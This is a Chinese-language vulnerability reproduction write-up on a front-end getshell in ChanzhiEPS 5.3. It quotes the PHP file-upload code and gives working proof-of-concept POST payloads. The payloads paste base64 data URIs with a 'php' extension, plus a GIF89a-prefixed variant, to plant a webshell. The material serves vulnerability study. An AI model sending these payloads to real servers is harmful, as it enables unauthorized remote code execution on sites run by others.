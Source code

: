 >继续漏洞复现

**5.3版本前台getshell**
**/system/module/file/control.php**
```php
public function ajaxPasteImage($uid)
    {
        if($_POST)
        {
            echo $this->file->pasteImage($this->post->editor, $uid);
        }
    }
```
**/system/module/file/model.php**
```php
public function pasteImage($data, $uid)
    {
        $data = str_replace('\"', '"', $data);

        if(!$this->checkSavePath()) return false;

        ini_set('pcre.backtrack_limit', strlen($data));
        preg_match_all('/<img src="(data:image\/(\S+);base64,(\S+))" .+ \/>/U', $data, $out);
        foreach($out[3] as $key => $base64Image)
        {
            $imageData = base64_decode($base64Image);
            $imageSize = array('width' => 0, 'height' => 0);

            $file['id']        = $key;
            $file['extension'] = $out[2][$key];
            $file['size']      = strlen($imageData);
            $file['addedBy']   = $this->app->user->account;
            $file['addedDate'] = helper::today();
            $file['title']     = basename($file['pathname']);
            $file['pathname']  = $this->setPathName($file);
            $file['editor']    = 1;

            file_put_contents($this->savePath . $file['pathname'], $imageData);

            $this->compressImage($this->savePath . $file['pathname']);

            $imageSize      = $this->getImageSize($this->savePath . $file['pathname']);
            $file['width']  = $imageSize['width'];
            $file['height'] = $imageSize['height'];
            $file['lang']   = 'all';

            $this->dao->insert(TABLE_FILE)->data($file)->exec();
            $_SESSION['album'][$uid][] = $this->dao->lastInsertID();

            $data = str_replace($out[1][$key], $this->webPath . $file['pathname'], $data);
        }
        return $data;
    }
```
可见，我们对控制的文件名为$file['pathname']和进过一系列变换的$imageDate，就目前来看文件的后缀是我们可以控制的，跟进**$this->setPathName**
```php
public function setPathName($file, $objectType = 'upload')
    {
        if(strpos('slide,source', $objectType) === false)
        {
            $sessionID  = session_id();
            $randString = substr($sessionID, mt_rand(0, strlen($sessionID) - 5), 3);
            $pathName   = date('Ym/dHis', $this->now) . $file['id'] . mt_rand(0, 10000) . $randString;
        }
        elseif($objectType == 'source') 
        {
            /* Process file path if objectType is source. */
            $template = $this->config->template->{$this->app->clientDevice}->name;
            $theme    = $this->config->template->{$this->app->clientDevice}->theme;
            return "source/{$template}/{$theme}/{$file['title']}.{$file['extension']}";
        }
        
        /* rand file name more */
        list($path, $fileName) = explode('/', $pathName);
        $fileName = md5(mt_rand(0, 10000) . str_shuffle(md5($fileName)) . mt_rand(0, 10000));
        return $path . '/f_' . $fileName . '.' . $file['extension'];
    }
```
可见这个函数对我们的后缀名没有干扰，但是其会生成随机的文件名，一开始我是用'**<?php phpinfo()?>**'base64编码后的poc
```url
http://127.0.0.1/chanzhieps/www/index.php?m=file&f=ajaxPasteImage
post:editor=/<img src="data:image/php;base64,PD9waHAgcGhwaW5mbygpPz4="    />
```
发现虽然成功写入webshell文件，但是，由于文件名太随机了，没办法访问，看见原文的作者说在webshell前加入gif89a头可以返回文件名，于是尝试了
'**GIF89a
<?php phpinfo()?>**'
base64后的编码，成功返回
```url
http://127.0.0.1/chanzhieps/www/index.php?m=file&f=ajaxPasteImage
post:editor=/<img src="data:image/php;base64,R0lGODlhCjw/cGhwIHBocGluZm8oKT8+"    />
```
究其原因，是因为其有个**$this->compressImage**操作，有兴趣的小伙伴可以去看看，是一个用gd，或者imagick库压缩图片的函数，我猜是库函数判断是非为图片抛出的异常